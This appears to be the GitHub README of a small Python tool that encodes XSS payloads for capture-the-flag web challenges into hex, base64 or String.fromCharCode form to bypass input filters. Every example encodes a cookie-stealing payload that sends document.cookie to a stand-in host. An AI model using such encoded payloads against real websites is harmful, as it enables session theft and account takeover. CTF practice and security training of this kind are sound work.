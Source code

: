 <div align="center">
  <img height="550px" src="https://user-images.githubusercontent.com/28403617/220600629-9da7b084-4fbc-4212-b10e-d395a178a7f5.svg#gh-light-mode-only">
  <img height="550px" src="https://user-images.githubusercontent.com/28403617/220600634-a43af6ba-fc67-4c47-981b-0c4e9c4aba7b.svg#gh-dark-mode-only">
</div>

## What is this?

It's a simple tool to encode payloads for ctf web challenges.

The main interest of this tool is to encode payloads for XSS vulnerabilities on ctfs challenges. It allows generating payloads with `String.fromCharCode` javascript function, raw hexa values and base64, used to bypass some filters.

## How to use it?

```sh-session
$ python3 enc-ow-der.py -h
usage: enc-ow-der.py [-h] -i INPUT [-b64] [-fchar] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        input string
  -b64, --base-64       encode as base64
  -fchar, --from-char-code
                        output the result with fromCharCode function
  -v, --verbose         verbose
```

## Examples

#### Hexa encoding

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+btoa(document.cookie))"
```
```bash
\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x6c\x6f\x63\x61\x74\x69\x6f\x6e\x2e\x72\x65\x70\x6c\x61\x63\x65\x28\x27\x68\x74\x74\x70\x3a\x2f\x2f\x65\x78\x61\x6d\x70\x6c\x65\x2e\x63\x6f\x6d\x2f\x27\x2b\x62\x74\x6f\x61\x28\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x29\x29
```

#### Base64 encoding

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+btoa(document.cookie))" -b64
```
```
ZG9jdW1lbnQubG9jYXRpb24ucmVwbGFjZSgnaHR0cDovL2V4YW1wbGUuY29tLycrYnRvYShkb2N1bWVudC5jb29raWUpKQ==
```

#### String.fromCharCode output
```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+ btoa(document.cookie))" -fchar
```
```
String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,39,104,116,116,112,58,47,47,101,120,97,109,112,108,101,46,99,111,109,47,39,43,32,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,41)
```

#### Base64 encoding + `String.fromCharCode` output

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+ btoa(document.cookie))" -fchar -b64
```
```
String.fromCharCode(90,71,57,106,100,87,49,108,98,110,81,117,98,71,57,106,89,88,82,112,98,50,52,117,99,109,86,119,98,71,70,106,90,83,103,110,97,72,82,48,99,68,111,118,76,50,86,52,89,87,49,119,98,71,85,117,89,50,57,116,76,121,99,114,73,71,74,48,98,50,69,111,90,71,57,106,100,87,49,108,98,110,81,117,89,50,57,118,97,50,108,108,75,83,107,61)
```